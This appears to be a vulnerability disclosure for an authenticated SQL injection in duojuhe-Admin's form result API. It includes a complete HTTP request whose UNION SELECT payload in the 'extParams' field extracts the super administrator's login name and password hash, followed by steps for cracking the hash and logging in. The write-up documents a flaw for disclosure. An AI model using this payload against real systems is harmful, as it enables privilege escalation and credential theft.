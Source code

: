 # The FormProjectResultController API of duojuhe-Admin has a background SQL injection vulnerability.

duojuheAdmin version: <= v1.0.2 vulnerable to background SQL injection attacks, allowing attackers to obtain the account password information of the super administrator through low-privilege users.


Step 1:Locate `com.duojuhe.coremodule.form.service.impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` and discover this function SQL statements are spliced without any filtering.

![2025-04-26 154408](./src/img/2025-04-26 154408.png)



Step 2:After joining together the SQL statements directly call `com.Duojuhe.Coremodule.Form.Mapper.FormProjectResultMapper#queryFormProjectResultPageResList` SQL query interfaces.

![2025-04-26 162251](./src/img/2025-04-26 162251.png)

![2025-04-26 154903](./src/img/2025-04-26 154903.png)



Setp 3:The lookup function `com.Duojuhe.Coremodule.Form.Service.Impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` is referenced within the function `com.Duojuhe.Coremodule.Form.Controller.FormProjectResultController#queryFormProjectResultPageResList`. Additionally, the route request to `/sysAdmin/formProjectResult/queryFormProjectResultPageResList` is analyzed, with the request method being specified as `POST`.

![2025-04-26 154010](./src/img/2025-04-26 154010.png)



Step 4:To verify the vulnerability, first authenticate using the low-privilege user account "yunying1". Capture the HTTP request packet to extract the token from the request header and substitute it with the token in the payload packet. Subsequently, transmit the payload and inspect the response data packet. As a result, the account and password information of the super administrator were successfully retrieved from the response data.

Payload:

```
POST /sysAdmin/formProjectResult/queryFormProjectResultPageResList HTTP/1.1
Host: example.com
Content-Length: 317
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
token: SYSTEM_ADMIN6bdf3c67541180d1d111f24c12947d1f18d740d4a95668c9e03369c3c3b429e7
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.3.11:1024
Referer: http://192.168.3.11:1024/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"projectId":"111","extParams":"{\"like\":\"aaa' UNION ALL SELECT login_name,password,user_type_code,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from system_user-- a\"}","extComparisons":"{\"like\":\"like\"}","startTime":"2025-04-01","endTime":"2025-04-02","statusCode":"","page":1,"rows":9}
```

1.Log in to an ordinary user to get a token.

![2025-04-26 144221](./src/img/2025-04-26 144221.png)

![2025-04-26 144338](./src/img/2025-04-26 144338.png)

2.Replace token and send payload.

![2025-04-26 144418](./src/img/2025-04-26 144418.png)

![2025-04-26 144517](./src/img-bak/2025-04-26 144517.png)

3.Get the password clear text of the super administrator through the rainbow table and log in successfully.

![2025-04-26 163147](./src/img/2025-04-26 163147.png)

![2025-04-26 163516](./src/img/2025-04-26 163516.png)
